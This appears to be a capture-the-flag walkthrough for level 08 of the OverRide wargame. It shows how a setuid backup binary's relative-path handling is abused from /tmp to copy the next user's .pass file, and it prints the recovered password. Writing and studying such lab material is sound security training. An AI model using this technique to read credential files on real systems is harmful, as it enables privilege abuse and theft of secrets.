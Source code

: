 # Level 08

Once logged in, you will see a binary, AND a directory name `backups`

```
$ ssh localhost -p 4444 -l level08
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level08@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
level08@OverRide:~$ ls
backups  level08
level08@OverRide:~$ ls -ls
total 16
 0 drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
16 -rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$
```

Running the program, it asks to provide a filepath. A `.log` file is located in `backups` directory, so let's try giving the path, but it fails to open the file, and the prompt shows the path different from the one given.

```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 ./backups/.log
ERROR: Failed to open ./backups/./backups/.log
level08@OverRide:~$
```

By decompiling the code, the program consists of 3 steps backing up the file given path.
1. The program attempts to open `./backups/.log` file for backup. If fails, the program will exit
  - The `log_wrapper` function will execute for logging the file
  - _Note: the path is not absolute, it's relative path._
2. The program will try opening the file from given path. If fails, the program will exit.
3. The program will copy the contents into the `./backups/[filename]`, and if it fails to create the file, the program will exit.
4. After the program finishes, the program will end.
  - the `log_wrapper` function will execute for logging the file

So the following would not be able to work, since there is no permission given to `level8` to open the file for `level9`.

```
level08@OverRide:~$ ./level08 /home/user/level9/.pass
ERROR: Failed to open /home/user/level9/.pass
level08@OverRide:~$
```

Since you cannot create any files in home directory (because of the permission), let's create a file on the directory `/tmp`.

```
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
